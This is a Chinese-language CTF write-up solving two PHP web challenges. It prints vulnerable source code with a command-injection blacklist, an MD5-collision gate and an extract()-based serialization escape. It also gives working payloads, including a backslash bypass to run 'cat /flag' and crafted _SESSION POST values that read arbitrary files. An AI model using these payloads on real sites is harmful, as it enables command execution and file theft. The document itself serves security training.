

## easy_web

打开直接看到URL为`?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=`,包含两个参数,一个为`img`,一个为`cmd`推测为命令执行,img参数推测为base64

直接base64解码,发现报错`binascii.Error: Incorrect padding`,尝试添加`=`

最终解码得到`3535352e706e67`,推测为hex编码,解码得到`555.png`

尝试通过img参数来读取index.php

`?img=TmprMlpUWTBOalUzT0RKbE56QTJPRGN3&cmd=`

```

```

```php+HTML
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
        echo '';
    die("xixi\xef\xbd\x9e no flag");
} else {
        $txt = base64_encode(file_get_contents($file));
    echo "</img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\
|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
        echo("forbid ~");
    echo "<br>";
} else {
        if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
            echo `$cmd`;
    } else {
            echo ("md5 is funny ~");
    }
}

?>
<html>
<style>
  body{
       background:url(./bj.png)  no-repeat center center;
   background-size:cover;
   background-attachment:fixed;
   background-color:#CCCCCC;
}
</style>
<body>
</body>
</html>

```

黑名单中没有`strings`,构造两个相同的md5然后直接读取flag


同时黑名单中没有`\`,可以构造`ca\t /flag`


## easy_serialize_php

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';#构造正则
    return preg_replace($filter,'',$img);#替换关键词
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

1. 首先注意到`extract($_POST);`,`extract`可用于将数组展开,键名作为变量名,元素值为变量值即直接将`$_POST`和`$_GET`中的变量解析出来,因此可以尝试对`$_SESSION`的部分变量进行覆盖

以POST的方法传入数据`_SESSION[asdf]=qwer`

可以看到在`$_SESSION`中的`user`和`function`被覆盖,而`img`不改变

`array(2) { ["asdf"]=> string(4) "qwer" ["img"]=> string(20) "Z3Vlc3RfaW1nLnBuZw==" } `

2. 要对flag进行读取,则要通过`file_get_contents(base64_decode($userinfo['img']));`,但是首先要知道flag在哪里,题目提示查看`phpinfo`

在`auto_append_file`看到`d0g3_f1ag.php`,目标是对其进行读取

但是`$userinfo['img']`要么是默认的`guest_img.png`,要么是sha1之后的字符串,因此要对默认的`img`赋值进行绕过

3. 注意到`$serialize_info = filter(serialize($_SESSION));`存在关键词的空白替换,因此可能存在反序列化对象逃逸

首先构造对img的赋值`_SESSION[asdf]=s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`

序列化之后得到`a:2:{s:4:"asdf";s:39:"s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

`";s:39:"`的长度为8,因此构造一个`s:8:"";s:39:"";s:1:"a";`的序列化即可进行逃逸

在filter中恰好对`flag`进行了过滤,因此payload为`_SESSION[flagflag]=";s:1:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`

得到提示`$flag = 'flag in /d0g3_fllllllag';`

payload`_SESSION[flagflag]=";s:1:"a";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}`

